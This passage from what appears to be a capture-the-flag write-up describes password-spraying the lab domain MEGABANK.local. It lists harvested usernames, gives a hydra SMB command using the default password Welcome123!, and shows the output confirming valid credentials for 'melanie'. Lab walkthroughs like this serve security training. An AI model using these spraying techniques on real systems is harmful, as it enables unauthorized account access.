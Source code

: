 We can see that about midway, a user with the name marko created a password with Welcome123!. I tried to access the workgroup with `Marko` and `Welcome123!` using smbclient but was not granted access, seems like Marko does not use the password Welcome123!.

It did, however, pull a list of usernames that could access the domain 'MEGABANK.local'

```
Administrator
DefaultAccount
krbtgt
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```

Appending all the usernames to a file called names.txt, I was able to throw hydra against the ip with the custom wordlist and the password.

```
$ hydra -L /root/Downloads/resolute/names.txt -p Welcome123! 10.10.10.169 smb
```
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-20 18:50:16
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 26 login tries (l:26/p:1), ~26 tries per task
[DATA] attacking smb://10.10.10.169:445/
[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-20 18:50:36
```

And success! The username `melanie` is valid with the password `Welcome123!`

---

